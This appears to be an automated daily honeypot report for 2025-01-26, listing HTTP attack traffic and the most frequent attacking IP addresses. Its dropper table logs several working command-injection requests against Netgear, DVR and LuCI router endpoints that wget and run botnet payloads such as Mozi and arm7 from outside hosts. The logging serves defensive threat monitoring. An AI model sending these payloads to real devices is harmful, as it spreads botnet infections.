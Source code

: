 ```yaml
---
title: "Report: 2025-01-26 "
date: 2025-01-26
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-26
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                                      |
|---:|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 115.50.19.66    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.50.19.66:50863/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                  |
|  1 | 46.19.143.26    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.225.17.58%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1   |
|  2 | 109.236.61.63   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.232.205.184%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  3 | 156.229.232.174 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(`wget%20-O-%20http://66.63.187.69/tp|sh;`) HTTP/1.1                                                                   |
|  4 | 156.229.232.174 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F66.63.187.69%2Ftp%7Csh%3B%60) HTTP/1.1                                                  |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   420 | 185.196.9.221   |
|   1 |                   385 | 167.86.83.197   |
|   2 |                   329 | 78.153.140.151  |
|   3 |                   315 | 5.189.153.135   |
|   4 |                   315 | 78.110.160.172  |
|   5 |                   294 | 92.255.57.58    |
|   6 |                   270 | 146.19.24.168   |
|   7 |                   254 | 60.191.125.35   |
|   8 |                   252 | 195.170.172.128 |
|   9 |                   252 | 185.91.69.110   |
|  10 |                   172 | 5.181.190.248   |
|  11 |                   112 | 109.236.61.63   |
|  12 |                   112 | 46.19.143.26    |
|  13 |                   105 | 3.22.225.7      |
|  14 |                   105 | 37.66.151.253   |
|  15 |                    91 | 156.229.232.174 |
|  16 |                    90 | 78.153.140.177  |